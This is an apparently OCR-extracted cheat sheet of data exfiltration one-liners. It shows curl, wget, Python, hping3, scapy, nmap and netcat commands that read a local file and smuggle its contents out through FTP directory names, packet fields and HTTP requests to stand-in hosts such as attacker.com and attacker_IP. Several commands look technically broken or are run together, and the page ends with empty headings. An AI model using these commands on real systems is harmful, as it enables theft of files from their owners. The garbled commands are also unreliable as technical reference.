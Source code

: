 1. **Using `curl` to create directories with encoded data in the FTP server:**


`curl -T "/path/to/local/file.txt" "ftp://username:password@ftp_server/$(echo -n "$(cat /path/to/local/file.txt)" | base64)"`

2. **Using `wget` to create directories with encoded data in the FTP server:**


`wget --user=username --password=password --ftp-password=password --ftp-user=username "ftp://ftp_server/$(echo -n "$(cat /path/to/local/file.txt)" | base64)"`

3. **Using Python to create directories with encoded data in the FTP server:**


`python -c "from ftplib import FTP; ftp = FTP('ftp_server'); ftp.login('username', 'password'); ftp.mkd('$(echo -n \"$(cat /path/to/local/file.txt)\" | base64)'); ftp.quit()"`

### Source IP-based Exfiltration 


1. **Using hping3 to send data in IP packets' source IP field:**


`echo -n "$(cat /path/to/local/file.txt)" | hping3 -S -s [source_IP] -p [destination_port] -c 1 -d 120 -V [destination_IP]`

2. **Using scapy in Python to send data in IP packets' source IP field:**



`python -c "from scapy.all import *; send(IP(src='[source_IP]', dst='[destination_IP]')/Raw(load='$(cat /path/to/local/file.txt)'))"`

3. **Using nmap to send data in IP packets' source IP field:**


`echo -n "$(cat /path/to/local/file.txt)" | nmap -sS -Pn -p [destination_port] --spoof-mac [spoofed_MAC_address] -e [network_interface] -S [source_IP] [destination_IP]`

### HTTP Response 

1. **Using `curl` to send data in an HTTP response header:**


`curl -H "Exfiltrated-Data: $(cat /path/to/local/file.txt)" http://attacker.com`

2. **Using Python to send data in an HTTP response body:**


`python -m http.server 8080 --bind attacker_IP & echo -n "$(cat /path/to/local/file.txt)" | curl -X POST http://attacker_IP:8080 -d @- kill %1`

3. **Using Netcat (nc) to send data in an HTTP response body:**


`echo -ne "HTTP/1.1 200 OK\r\nContent-Length: $(stat -c %s /path/to/local/file.txt)\r\n\r\n" > /tmp/response.txt cat /path/to/local/file.txt >> /tmp/response.txt nc -l -p 8080 < /tmp/response.txt`

### MAP_Draft


### NTP Request 
